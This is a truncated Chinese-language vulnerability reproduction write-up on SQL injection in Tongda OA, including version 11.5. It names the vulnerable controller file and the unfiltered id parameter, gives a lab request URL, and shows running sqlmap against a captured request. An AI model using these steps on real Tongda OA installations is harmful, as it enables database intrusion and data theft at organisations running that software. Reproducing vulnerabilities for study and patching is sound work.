 





## 通达OA前台SQL注入复现

登录-个人事务-日程安排-日程查询

![image-20210409145256353](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409145256353.png)

抓包后点击，截取数据包

![image-20210409145337314](images/%E9%80%9A%E8%BE%BEOA%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0.assets/image-20210409145337314.png)

保存到文件，sqlmap跑一下，注入成功

```
python3 sqlmap.py -r 1.txt
```

![image-20210409145454661](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409145454661.png)



# 通达OA 11.5

## SQL注入1——id参数

利用条件：一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入

webroot\general\appbuilder\modules\report\controllers\RepdetailController.php，actionEdit函数中存在 一个$_GET["id"]; 未经过滤，拼接到SQL

登录test用户，抓包URL，Sqlmap跑一下

```
http://192.168.16.112:8080/general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2
```

![image-20210409174727847](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409174727847.png)

发现跑出了两
